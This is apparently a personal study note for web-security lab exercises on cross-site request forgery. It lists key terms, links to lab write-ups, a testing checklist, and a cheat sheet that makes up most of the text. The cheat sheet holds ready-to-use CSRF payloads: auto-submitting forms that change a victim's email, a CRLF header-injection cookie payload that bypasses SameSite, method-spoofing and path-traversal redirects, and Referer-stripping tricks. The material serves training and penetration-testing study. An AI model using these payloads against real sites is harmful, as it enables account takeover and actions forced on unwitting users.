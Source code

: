 # CSRF

## Key Terms

```
- Engagment tools -> Generate CSRF PoC (Burp Professional)
- SameSite: 
	-> Lax (default depends browser) -> only GET
	-> Strict -> only same site requests
	-> None -> secure flag required (https)
	
- \r\n -> %0d %0a
- Method spoofing -> search engine, e.g> _method=POST , @method('POST'), method=POST etc
```

## Most important labs


- [CSRF bypassing SameSite=Strict restriction via redirect + path traversal + CSRF](CSRF-bypass-SameSite-Strict-via-redirect-path-traversal.md)

- [CSRF bypassing SameSite=Lax via method spoofing](CSRF-bypass-SameSite-Lax-via-method-spoofing.md)

- [CSRF via Header Injection in Duplicated Cookie (SameSite-Strict bypass via client-side redirect)](CSRF-via-Header-Injection-SameSite-Strict-client-side-redirect.md)


## Metodology

```bash
- Try switch POST to GET
- Remove csrf token
- Token not tied to account -> Try valid (our) csrf token
- Cookie ->
    > csrf token + username/email
    > try duplicate cookie %0d %0a + Header Injection
- Same cookie work in differents subdomains
- No same-site? -> after 2 mins same-site = lax
- Same-Site = strict? -> search redirect 
- Try remove Refered header
  ```

![CSRF-MAP-CASES](/04-Screenshots/CSRF-map.png)


#### Cheat Sheet

```html

// CSRF NO DEFENSES  / TRY WITH GET INSTEAD POST
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF TOKEN NO TIED COOKIE SESSION
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF + Header injection - csrf token tied to csrfKey
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-KEY-MATCH>%3b%20SameSite=None" onerror="document.forms[0].submit()">
//
// SAME-SITE LAX (DEFAULT) + METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
//
// SAMESITE STRICT BYPASS VIA CLIENT-SIDE REDIRECT
<script>
    location="<IP>/post/comment/confirmation?postId=../../my-account/change-email?email=pwnd@pwned.com%26submit=1"
</script>
//
// CSRF where Referer validation depends on header being present (add this to normal csrf to remove Refered header)
<meta name="referrer" content="no-referrer">
//
// CSRF with broken Referer validation
Referrer-Policy: unsafe-url (http header)

<form class="login-form" name="change-email-form" action="https://<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
   history.pushState("", "", "/?0ad0008e0432189380d1444800d90040.web-security-academy.net/")
    document.forms[0].submit();
</script>

// METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```


